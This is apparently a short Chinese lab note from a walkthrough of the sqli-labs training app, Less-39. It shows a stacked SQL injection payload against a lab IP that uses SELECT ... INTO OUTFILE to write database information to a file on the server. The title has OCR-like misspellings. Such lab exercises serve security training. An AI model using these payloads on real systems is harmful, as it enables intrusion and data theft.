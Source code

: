 ### Less-39：GET - stacked Query lnjection - lntiger based

**注入类型**

堆叠注入

**闭合方式**

id=\$id

```sql
http://192.168.65.128/sqli-labs/Less-39/?id=1;
select 'Less-39',database(),3 into outfile "C:\\phpStudy\\MySQL\\data\\dump.txt" --+
```

![](file/image_1kq0nMAc1F.png)
